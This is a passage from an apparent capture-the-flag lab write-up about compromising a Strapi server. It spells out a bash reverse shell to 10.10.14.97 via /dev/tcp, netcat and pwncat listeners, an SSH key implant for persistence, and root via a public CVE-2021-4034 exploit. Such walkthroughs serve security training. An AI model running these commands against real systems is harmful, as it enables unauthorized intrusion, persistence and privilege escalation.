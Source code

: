 Trying to authenticate with the provided credentials on the `/admin/auth/login` page works. However, this exploit also gives us remote code execution. Trying to run `whoami` returns an error though since it is a blind RCE exploit.

```bash
$> whoami
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

Maybe a reverse shell will work though. We can use [revshells](https://www.revshells.com/) to generate a bash reverse shell. The reverse shell command is `sh -i >& /dev/tcp/10.10.14.97/59726 0>&1` (you can find your ip using `ip a` and looking under `tun0`) and you can start a listener with netcat by running `nc -lvnp 59726`, but we will use [calebstewart/pwncat](https://github.com/calebstewart/pwncat) instead.

We can start a listener with `pwncat-cs -lp 59726`. Then, execute the reverse shell by running `sh -i >& /dev/tcp/10.10.14.97/59726 0>&1` using the RCE exploit. This doesn't work so we can try surrounding the reverse shell with `bash -c`: `bash -c 'sh -i >& /dev/tcp/10.10.14.97/59726 0>&1'`, which is effective.

## Lateral Movement

We now have access to the `strapi` account over SSH. We `cat /etc/passwd` and see that the `strapi` user's home folder is `/opt/strapi`. There is no `user.txt` here so we check the `developer` (id `1000`) user's home folder, which has the `user.txt` flag. We can view the `user.txt` flag with `cat /home/developer/user.txt`.

We can copy over an SSH key so that we can authenticate as the `strapi` user without having to reuse the exploit by running `run implant.authorized_key key=/home/kali/.ssh/id_rsa` within `pwncat`. Alternatively, the key can be manually copied over to the target machine. Now, we can reconnect with `pwncat-cs strapi@10.10.11.105 --identity /home/kali/.ssh/id_rsa`.

## Privilege Escalation

`pwncat` has some built-in escalation techniques, which we can try with `escalate list -u root`, but none of these work.

Within the `/opt/strapi` directory there is an RSA private and public key called `strapi` and `strapi.pub`, respectively. So, that might be useful.

We use the standard [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script to find potential privilege escalation paths. Pwncat makes it easy to transfer this script to the target with `upload /home/kali/linpeas.sh /opt/strapi/linpeas.sh`. Then, run it with `bash linpeas.sh`.

LinPEAS immediately tells us that the installed version of `sudo` is vulnerable to `CVE-2021-4034`, which is a very recent exploit and is not the intended solution. However, downloading [berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034) as a ZIP file, copying the file over, unzipping it, running `make` in the directory, and then executing `./cve-2021-4034` opens a root shell and the `root.txt` flag can be obtained with `cat /root/root.txt`.

However, LinPEAS also shows that there are open ports on `127.0.0.1`.

```
Active Ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1749/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
